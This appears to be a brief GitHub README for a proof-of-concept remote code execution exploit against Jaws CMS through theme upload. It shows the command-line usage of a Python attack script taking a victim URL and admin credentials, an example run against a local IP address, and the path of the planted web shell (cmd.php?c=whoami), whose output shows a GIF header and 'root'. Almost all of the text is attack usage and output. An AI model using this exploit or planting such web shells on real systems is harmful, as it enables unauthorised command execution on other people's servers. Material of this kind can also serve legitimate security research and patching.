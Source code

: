 # jaws-rce-via-theme


python jaws-rce2.py

[+]Usage python jaws-rce2.py http://victim.com/ admin admin

python jaws-rce2.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin


Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/themes/cmd.php?c=whoami

GIF89a

root
